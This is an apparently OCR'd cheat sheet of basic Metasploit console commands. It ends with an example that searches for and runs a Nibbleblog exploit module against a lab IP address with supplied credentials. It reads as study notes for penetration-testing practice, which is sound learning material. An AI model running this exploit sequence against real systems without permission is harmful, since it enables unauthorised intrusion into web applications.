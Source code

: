 msfconosle

|        |        |
|--------|--------|
| search | Allows you to search from the Metasploit database based on the given protocol/application/parameter
| use    | Allows you to choose a particular module and changes the context to module-specific commands
| info   | Provides information about the selected module
| show   | Displays information about the given module name and options for the current module
| check  | Checks if the target system has a vulnerability
| set    | It's a context-specific variable that configures options for the current module
| unset  | Removes previously set parameters
| run    | Executes the current module
| debug  | Shows useful information when exploit is not working (execute right after exploit)

Example>
`search nibble`
`use 0` - use module with index 0 from last seach
`set RHOST 10.129.96.84`
`set TARGETURI /nibbleblog/admin.php`
`set USERNAME <username>`
`set PASSWORD <password>`
`check` - 'The target appears to vulnerable'
`run`
